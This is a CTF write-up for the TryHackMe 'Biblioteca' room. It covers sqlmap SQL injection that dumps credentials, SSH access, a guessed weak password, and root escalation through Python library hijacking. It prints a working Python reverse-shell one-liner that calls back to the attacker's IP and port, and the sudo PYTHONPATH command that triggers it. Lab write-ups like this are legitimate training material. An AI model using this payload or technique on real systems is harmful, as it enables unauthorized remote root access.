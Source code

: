 ```yaml
---
title: "Biblioteca - TryHackMe"
date: 2022-05-23T20:20:50-03:00
---
```


https://tryhackme.com/room/biblioteca

![biblioteca](/biblioteca/wallpaper.jpg)

## **User Flag**

First, we start by enumerating the ports and services.  
In the print below I have already set the ports to 22 and 8000 because I found out that they were open in a regular scan without any nmap flags.

![biblioteca](/biblioteca/PortScan.png)

\
I access the website and see that there is a login page. I try to create a user in the Sign-Up link to see what it looks like in there, but there is nothing interesting there.

![biblioteca](/biblioteca/Port8000.png)

![biblioteca](/biblioteca/UserLoggedIn.png)

\
Since the first page is a login page, I quickly try some SQL Injection with sqlmap, first by intercepting the POST request and then using it with the sqlmap command.

![biblioteca](/biblioteca/RequestIntercepted.png)

![biblioteca](/biblioteca/sqlmap.png)

\
We can observe that the parameter username is vulnerable so I start to retrieve informations from the database. You can see in the image above that the Database is called website.  

As this is a TryHackMe host probably the database is small, so to gain some time I use the flag –dump-all to dump everything from the website database.

![biblioteca](/biblioteca/DumpandoInfos.png)

\
Here I got a username and password and immediately try these credentials in SSH.

![biblioteca](/biblioteca/ssh-login.png)

\
Trying to find the flag, we see that it is in the hazel home and we don’t have permissions to read it. So, we need to find some way to login as hazel.

![biblioteca](/biblioteca/PermissaoNegada.png)

\
In this part I got stuck for a few minutes and I need to look at the hint. The hint was “Weak password”, so I just tried a simple password combination and “hazel”, same as the username, worked it.

Now logged as hazel, we just need to *cat* the user.txt and get the first flag.

![biblioteca](/biblioteca/flag-user.png)

## **Root Flag**

The first thing I do when I need to privilege escalation is to check the permissions with sudo and if there is something interesting in this user.

![biblioteca](/biblioteca/sudo-l.png)

\
We see that hazel can use the command python3 with root permissions in the file *hasher.py*.

Taking a look at this file, we see that there is a library being used: *hashlib*.

![biblioteca](/biblioteca/hasherPython.png)

\
Here we can do something that is called Python Library Hijacking. Basically, we just need to modify the library file and insert some malicious payload to get this payload executed by root.

This [article](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/) explains this exploration in a very clear way.

Since we don’t have permission to edit the current library file, we copied it to the /tmp directory.

![biblioteca](/biblioteca/libtmp.png)

\
Now we can edit it and insert a python reverse shell payload with our tun0 address.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.117.185",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![biblioteca](/biblioteca/payloadLib.png)

\
We need to execute the python file with the PYTHONPATH argument, to tell where python will search for the libraries included in the hasher.py. When we execute the hasher.py, it will call the library hashlib and since there is this playload in the library file, the reverse shell will be popped in our listener.

Remember to set your listener before executing the command.

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

![biblioteca](/biblioteca/comando.png)

\
Finally we obtain our reverse shell and just cat root.txt for the second flag.

![biblioteca](/biblioteca/flag-root.png)

See ya =).